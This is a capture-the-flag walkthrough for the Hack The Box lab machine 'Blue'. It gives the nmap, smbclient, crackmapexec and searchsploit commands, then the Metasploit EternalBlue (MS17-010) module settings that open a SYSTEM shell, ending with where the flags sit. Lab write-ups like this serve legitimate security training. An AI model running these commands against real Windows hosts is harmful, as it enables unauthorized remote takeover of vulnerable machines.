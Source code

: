 # Blue      

![Blue](./Screenshots/bluelogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/bluenmap.png)
![nmap](./Screenshots/bluenmap2.png)

Here are the descriptions of the open ports shown in the screenshots:

### **135/tcp (MSRPC)**
Microsoft Windows RPC service used for remote procedure calls.

### **139/tcp (NetBIOS-SSN)**
NetBIOS Session Service, used for sharing files/printers over a Windows network.

### **445/tcp (Microsoft-DS)**
SMB service on Windows 7 Professional SP1, part of the WORKGROUP domain.

### **49152-49157/tcp (MSRPC)**
Dynamic RPC ports used for additional Microsoft Windows RPC communication.

We can see that **SMB** is open.

### smbclient

First of all, it is always worth just searching the resources yourself, even if it does not give any result. Sometimes we can get interesting informations.

Type:

```
smbclient -L \\\\{target ip}\\ --no-pass
```

to see `Sharenames`.

![SMB](./Screenshots/bluesmb.png)

The only `Sharename` that we can fully access and contains something that looks interesting is `Users`.

To open it, type:

```
smbclient \\\\{target ip}\\Users --no-pass
```

![SMB](./Screenshots/bluesmb2.png)
![SMB](./Screenshots/bluesmb3.png)

I searched all of this using tools and there was nothing that could really help.

Time to look for some **exploit**.

### crackmapexec

I typed:

```
crackmapexec smb {target ip}
```

![crackmapexec](./Screenshots/bluecrackmapexec.png)

**SMB Details**: 
   - `signing:False`: SMB signing is disabled, making it **vulnerable** to man-in-the-middle (MITM) attacks.
   - `SMBv1:True`: The server supports SMBv1, a protocol known for serious vulnerabilities like **EternalBlue**.

As machine name is **Blue** we know where we will hit.

**EternalBlue** is a critical exploit developed by the NSA and leaked by the Shadow Brokers in 2017, targeting a vulnerability in the **SMBv1 protocol** on Windows systems **(CVE-2017-0144)**. It allows remote code execution, enabling attackers to gain unauthorized access to vulnerable machines without authentication.

**EternalBlue** was famously used in large-scale cyberattacks like **WannaCry** and **NotPetya**.

### SearchSploit

```
searchsploit EternalBlue
```

![SearchSploit](./Screenshots/bluesearchsploit.png)

There are several exploits for this vulnerability.

Remember that our target system is **Windows 7**.

### Metasploit

In order:

```
msfconsole
```

```
search EternalBlue
```

![Metasploit](./Screenshots/bluemetasploit.png)

copy:

```
exploit/windows/smb/ms17_010_eternalblue
```

and type:

```
use exploit/windows/smb/ms17_010_eternalblue
```

then:

```
show options
```

![Metasploit](./Screenshots/bluemetasploit2.png)

We will have to set up `RHOST` and `LHOST`(as we are connected to **HTB** through **VPN**).

```
set LHOST {your tun0 ip}
```

```
set RHOST {target ip}
```

when it's done, type:

```
run
```

and press `Enter`.

![Metasploit](./Screenshots/bluemetasploit3.png)

We have a shell.

*If you want to have `Windows` shell type `shell` and press enter. I did it only to execute `whoami` command and then I hit `exit` as I wanted to navigate through system by `Unix` commands as `Metasploit` makes it possible.*

![whoami](./Screenshots/bluewhoami.png)

We are **`nt authority\system`** - this is the most powerful account in Windows, even more privileged than the `Administrator` account. It has unrestricted access to all system resources, processes, files, and services.

### Get the user flag

The `user` flag is in the `C:\Users\haris\Desktop` path.

![flag](./Screenshots/blueuserflag.png)

### Get the root flag

`Root` flag is in the `C:\Users\Administrator\Desktop` path.

![flag](./Screenshots/bluerootflag.png)

### Paste the flags

![pwned](./Screenshots/bluepwned.png)